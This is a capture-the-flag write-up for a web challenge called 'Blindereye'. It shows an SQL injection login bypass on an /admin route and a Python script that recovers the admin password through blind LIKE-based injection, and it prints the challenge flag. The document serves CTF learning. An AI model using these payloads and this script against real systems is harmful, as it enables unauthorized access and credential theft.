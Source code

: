 # Blindereye

Challenge Description:

> An eye for an eye only ends up making the whole world blind.

## Analyzing the website

We have a /admin route which takes username and password as get parameters.The views.py file also has a checksecret function which does not use prepared statements because of which there is sql injection in both parameters.

![views.py](views.PNG)

Putting username --> `' or 1=1-- ` logs us in as the admin but no flag is present.

![admin_page](admin.PNG)

This makes me think that we need to do blind sql injection to find the admin's password.We can use the LIKE operator with % to match 0 or more number of characters.

Payload --> `' or password like "{char}%"-- `

We can automate this by using the script below which iterates through almost all the printable characters and finds the correct characters of the flag.

```python
import requests
import string

#flag = 'CTFUA{1m_l3g4lly_bl1nd}'
var = True
status = 0
flag = 'ctfua{'

printable = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!&()*+,-=@^}~'

while(var):
	for char in printable:
		print(f"Trying char --> {char}")
		payload = f"' or password like \"{flag + char}%\"-- "
		url = f"http://cybersecweek.ua.pt:2006/admin?username={payload}&password=admin"

		r = requests.get(url)
		if "Admin Panel" in r.text:
			flag += char
			print(f"Got flag --> {flag}")
			if char == "}":
				print(f"Flag done --> {flag}")
				status = 1
			break

	if(status):
		break
		
	if(char == "~"):
		print("_ here mostly")
		flag += '_'
```

Running this script gives us the starting few characters as shown below and it continues to find the complete flag.

![start of flag](trial_output.PNG)